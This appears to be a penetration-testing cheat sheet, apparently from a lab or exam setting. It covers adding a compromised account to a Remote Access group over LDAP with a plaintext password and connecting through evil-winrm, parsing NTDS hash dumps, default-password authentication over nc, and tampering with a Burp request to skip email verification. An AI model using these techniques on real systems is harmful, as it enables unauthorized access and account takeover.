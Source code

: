 #### Add a Comproised User to Remote Access through LDAP

```bash
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"

evil-winrm -u tracy.white -i nara.nara-security.com
```

#### Split Strings in Bash

```bash
# Splits on each ':' and grabs the 3rd index (for each line)
awk -F: '{ print $4 }' ntds.hashes
```

#### Auth through nc bind

If you bind to a port, such as Cassandra on port 8021, and you get the following,

```bash
kali@kali:~$ nc 192.168.120.155 8021
Content-Type: auth/request
...
help

Content-Type: command/reply
Reply-Text: -ERR command not found
...
```

you can authenticate by typing:

```bash
auth <default password>
```


#### Modifying Parameters for Login Portals , BurpSuite

Take the time to review any account login information in BurpSuite. Look at the response.. in the scenario that you're creating a new account and there's an email verification, is there a parameter "confirmed" that decides if it recognizes you? Hijack the email parameter:

```bash
// Before
_method=patch&authenticity_token=sqroxonHHHMVjShpvoFQxdQaO5lP9Z-w_XCLkSzgHY9UDTziioXABz5UKg8E0pO7qUVlzkDlK6WfwSjluHnkMQ&user%5Bemail%5D=test2%40test.test&commit=Change%20email

//After
_method=patch&authenticity_token=RSv5NyN2tJJgQcgbwtyWzA7oHYcTW4dSZNsLoHuASc-jjC0TIDRo5kuYyn14j1Wyc7dD0BxLM0cGaqjU7xmwcQ&user%5Bconfirmed%5D=True&commit=Change%20email
```

#### Interesting Files for File Inclusion, Path Traversal

